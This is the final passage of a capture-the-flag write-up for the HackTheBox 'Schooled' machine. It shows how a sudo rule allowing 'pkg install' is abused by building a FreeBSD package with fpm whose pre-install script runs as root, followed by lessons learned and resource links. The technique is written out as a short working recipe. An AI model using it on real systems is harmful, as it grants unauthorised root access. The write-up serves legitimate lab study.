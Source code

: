 ```none
```

There is a line where `id` command is run and we can see we are `root`. From here we can execute a reverse shell, or maybe add an SSH key for the `root` user. However, at this point, I was tired and went with the no-frills option of `cat`ting the `root.txt` flag.

```none
TF=$(mktemp -d)
echo 'cat /root/root.txt' > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
sudo pkg install -y --no-repo-update ./x-1.0.txz
```

Done!

## Lessons Learned

- Refactoring exploits takes forever, but it teaches me so much. Where is the line to draw in the sand?
- Hashcat on a dedicated machine with CUDA is so much faster and hashcat seems to be much more flexible with more functionality.

## Useful Resources

- [HackTheBox - Schooled by ippsec](https://www.youtube.com/watch?v=bUfZlBMFJ2I)
- [HTB: Schooled by 0xdf](https://0xdf.gitlab.io/2021/09/11/htb-schooled.html)
- [Exploiting Moodle vulnerabilities and FreeBSD custom pkg](https://fmash16.github.io/content/writeups/hackthebox/htb-Schooled.html)
https://fmash16.github.io/content/writeups/hackthebox/htb-Schooled.html
